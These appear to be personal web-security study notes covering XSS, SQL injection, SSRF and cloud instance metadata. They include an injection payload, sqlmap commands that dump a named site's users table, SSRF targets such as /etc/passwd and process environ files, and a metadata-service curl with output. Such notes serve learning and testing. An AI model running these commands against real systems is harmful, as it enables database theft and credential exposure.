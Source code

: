 ### XSS

- Type of XSS:
  - Stored: Attacker store script into the website, and victim visit the page and execute the script
  - Reflected: Attacker sends crafted URL to victim (phising email) and victim visit the legitimate site and execute the script
- What XSS can do
  - Password guessing attack to internal app
  - Add a web browser key stroke logger
  - Port scan internal server
  - Capture screen
  - Capture mic or webcam
  - Steal a credential for creating a fake login page
  - Redirect a form hosted by attacker
  - Deploy JS cryptominer
  - Steal a  cookie

### SQLinjection

```
f"SELECT filename FROM dropbox WHERE owner = '{}';".format(user_input)

--> blake' OR 'a'='a

SELECT filename FROM dropbox WHERE owner = 'blake' OR 'a'='a';
```

sqlmap

```
sqlmap -u 'http://www.rookaviary.com/email_search.php?search=Taylor'
sqlmap -u 'http://www.rookaviary.com/email_search.php?search=Taylor' --dbs
sqlmap -u 'http://www.rookaviary.com/email_search.php?search=Taylor' -D web_app --tables
sqlmap -u 'http://www.rookaviary.com/email_search.php?search=Taylor' -D web_app -T users --columns
sqlmap -u 'http://www.rookaviary.com/email_search.php?search=Taylor' -D web_app -T users --dump
sqlmap -u "https://example.com/login" --data="username=admin&password=1234"
```

### SSRF

Have the server facing the attacker access other web sites typically hidden by FW, or its local files such as `/etc/passwd`. Application local files are more interesting than OS files, such as config, /etc/environment, /proc/NNN/environ...

### IMDS: Instance MetaData Service

AWS

```
curl -s http://169.254.169.254/latest/dynamic/instance-identity/document 
{
  "accountId" : "171510992009",
  "architecture" : "x86_64",
  "availabilityZone" : "ap-northeast-1c",
  "billingProducts" : null,
  "devpayProductCodes" : null,
  "marketplaceProductCodes" : null,
  "imageId" : "ami-089636926219b141b",
  "instanceId" : "i-0c4863ffe6255dcfe",
  "instanceType" : "t3.nano",
  "kernelId" : null,
  "pendingTime" : "2025-05-20T15:03:58Z",
  "privateIp" : "10.0.0.77",
  "ramdiskId" : null,
  "region" : "ap-northeast-1",
  "version" : "2017-09-30"
```